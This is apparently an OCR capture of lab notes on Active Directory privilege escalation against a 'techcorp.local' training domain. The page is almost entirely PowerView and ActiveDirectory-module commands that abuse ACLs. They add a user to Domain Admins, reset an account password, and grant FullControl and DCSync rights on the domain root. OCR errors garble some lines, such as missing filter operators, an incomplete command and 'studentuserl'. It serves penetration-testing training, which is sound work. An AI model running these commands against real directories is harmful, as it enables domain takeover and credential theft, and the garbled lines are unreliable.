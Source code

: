 ###### Check DA permission

```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -
ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName "studentuser1"}

# Using ActiveDirectory Module:
(Get-Acl -Path 'AD:\CN=Domain Admins , CN=Users , DC=us ,DC=techcorp,DC=local').Access | ?{$_.IdentityReference 'studentuser1'}
```

###### Abusing FullControl using PowerView

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Using ActiveDirectory Module:
Add-ADGroupMember -Identity 'Domain Admins' -Members
```

###### Abusing ResetPassword using PowerView

```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

#Using ActiveDirectory Module:
Set-ADAccountPassword -Identity testda -NewPassword
(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Rights Abuse

###### Add FullControl rights

```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuserl -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp. local -Verbose

# Using ActiveDirectory Module and RACE:
Set-ADACL -SamAccountName studentuserl -DistinguishedName 'DC=us,DC=techcorp,DC=local' -Right GenericAll -Verbose
```

###### Add rights for DCSync

```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us ,dc=techcorp,dc=local" -PrincipalIdentity studentuserl -Rights DCSync -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp. local -Verbose

# Using ActiveDirectory Module and RACE:
Set-ADACL -SamAccountName studentuserl -DistinguishedName 'DC=us,DC=techcorp,DC=local' -GUIDRight DCSync -Verbose
```
